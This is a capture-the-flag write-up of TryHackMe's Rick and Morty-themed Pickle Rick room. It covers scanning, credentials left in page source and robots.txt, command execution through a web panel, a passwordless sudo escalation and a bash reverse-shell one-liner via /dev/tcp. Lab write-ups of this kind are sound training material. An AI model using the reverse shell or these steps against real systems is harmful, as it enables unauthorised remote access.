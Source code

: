 # Try Hack Me - [Pickle Rick Room](https://tryhackme.com/room/picklerick)

## Easy rated, CTF style lab, based on the television show Rick and Morty.

In this Rick and Morty themed lab, users are challenged to exploit a web server to find 3 ingredients that will help Rick make a potion that will transform him from pickle to human.

First, after starting the machine, I run Nmap to see what ports are open and save the results to a file called initial_scan.

![nmap1](https://user-images.githubusercontent.com/90977933/133953217-d124f8bc-3925-4df8-beb7-5b187ef3f915.png)


With only two open ports, 22 and 80, I use the -A flag in Nmap on those two ports to get additional information about the ports and victim machine.


![nmap2](https://user-images.githubusercontent.com/90977933/133953522-7c26e090-af6b-49ee-a735-68f8f7720231.png)

![nmap3](https://user-images.githubusercontent.com/90977933/133953528-52df3b14-3adf-4503-bec3-2815fafd5255.png)


From our results I can see the victim machine is running Linux Ubuntu and that there is an Apache web server and webpage on port 80.


### visiting the webpage!


![browser1](https://user-images.githubusercontent.com/90977933/133953712-b398f2b4-c2bc-4bec-be40-27850a845135.png)


**Here begins the start of the story.** The webpage is a note from Rick to Morty explaining that he has turned himself into a pickle again and needs Morty's help to turn back. He tells Morty to log into his computer and find the last three secret ingredients needed for his "pickle-reverse potion", but he has no idea what the password is. 

My first thought is to look at the source code of the webpage to see if there is anything useful.

![browser1_sc](https://user-images.githubusercontent.com/90977933/133953942-66b0f19e-6132-4a2c-9b56-7ec3b1c873e7.png)


AH HA! In the source code there is a username commented out by rick  **R1ckRul3s**. 



As a general good practice, I always check to see if the webpage has a robots.txt before moving on, **and it does!**


![robots1](https://user-images.githubusercontent.com/90977933/133954105-3ace493c-e4f6-4e9c-9ba2-af68d5c1b63f.png)


In the roboots.txt file the only thing here is "wubbalubbadubdub". Into the lab notes It goes.

Just to rule it out, I try to use the username we found in the page source and the string I found in the robots.txt, as a username and password combo on the open ssh port. Unfortunately with no success. On we go.


Next, I run gobuster to see if there are any hidden directories or redirects.


![gobuster1](https://user-images.githubusercontent.com/90977933/133954242-e400a294-5c6f-4475-8146-5838d30edec6.png)


In the gobuster results there are two 302 redirects to a /login.php directory. 


![gobuster2](https://user-images.githubusercontent.com/90977933/133954263-852e4387-2812-4112-a9e2-487b4e183982.png)


I visit the login.php to find a login portal and try the same username and password combination I used earlier for SSH.

### Success!


![portal1](https://user-images.githubusercontent.com/90977933/133954393-0f5fc69b-4d0a-44c9-af92-ff62d573973e.png)


After clicking around on the website and viewing the source code, I find all except for the Commands page, redirects to a denied.php with a message that only the REAL rick can view this page.
Since I know the machine we are connected to is a linux machine, I enter the *whoami* command on the Command Panel page to see what happens.

![command1](https://user-images.githubusercontent.com/90977933/133954466-ce87b84b-5933-48de-93f4-5d34c471a9c1.png)


Printed to our screen I see the output www-data and with that i think it's safe to say we are interacting directly with the server through this page.

![command2](https://user-images.githubusercontent.com/90977933/133954474-8bf1c555-3c95-4eb2-bc1f-aa588688d449.png)

I assume then that I am in the /var/www/html folder and run *ls -la* where I find there is a file called **Sup3rS3cretPickl3Ingred.txt.** Since it is in this directory I visit that page in the browser and find our **first flag.**

Trying to use the *cat* command showed that it is disabled along with more.

![disabled](https://user-images.githubusercontent.com/90977933/133954528-740b4f27-ecc7-43c3-9282-be5eed242025.png)


Looking into the disabled page source code I find a comment that looks like base64 encoding.

![disabled2](https://user-images.githubusercontent.com/90977933/133954648-214b9bf8-7746-4ae5-84e4-16720e694a4f.png)

After decoding a few times I realized the string was getting smaller and smaller which led me to believe it may have been a password.
It was not... rabbit hole...

Getting back on track! I go back to the command page and try some directory traversal to see what other information I can find. Using *ls -la ../../../home* I find users rick and ubuntu. I later found that it was unnecessary to use ../ since we we are interacting directly with the server and there were no checks outside of dissalowed commands and regular file permissions. 



![traversal1](https://user-images.githubusercontent.com/90977933/133954687-a1f3d5b1-c54c-4877-bcee-309d592aa72c.png)



Inside of the rick directory, there is a file called second ingredients.


![traversal2](https://user-images.githubusercontent.com/90977933/133954701-2c76686c-5ca8-4c7a-9b0e-82943caeb1f4.png)


Since *cat* is disabled I tried the *more* command with no luck. Next option is the *less* command.


![traversal3](https://user-images.githubusercontent.com/90977933/133954865-273d3e6c-6442-4b94-9ec9-5698603ca941.png)


**BAM! There is our second flag.**

I assume now the 3rd and final flag is in the machines root folder. Typically I would try to get a shell on the machine but since we can execute commands here, lets see what we can do here first.

Since it is the www-data user interacting with the server. I check to see what permissions www-data has using *sudo -l* command.



![root1](https://user-images.githubusercontent.com/90977933/133954924-3758cc56-8fbf-4a85-ac94-27e28bafaa70.png)



Luckily for us user www-data can run **ALL COMMANDS WITH NO PASSWORD!!!** So now I *sudo -ls -la* the contents of the **/root** folder



![root2](https://user-images.githubusercontent.com/90977933/133955038-60a10422-da07-4532-9ec8-2542afcdc905.png)



And like before, I used the *less* command to view the contents of file **3rd.txt** for the third and final flag.



![root3](https://user-images.githubusercontent.com/90977933/133955061-677b23f5-a661-44ee-8115-c8a7e1d33eb8.png)


This lab was a quick and easy room that didn't require you to gain access to retrieve the final flag. 
I did go back and try to gain access using a reverse shell and had success with executing 

**Bash -c \'bash -I >& /dev/tcp/IP address/8080 0>&1\'**

in the command webpage. From there it was the same sudo commands to find the final flag.

-Simon
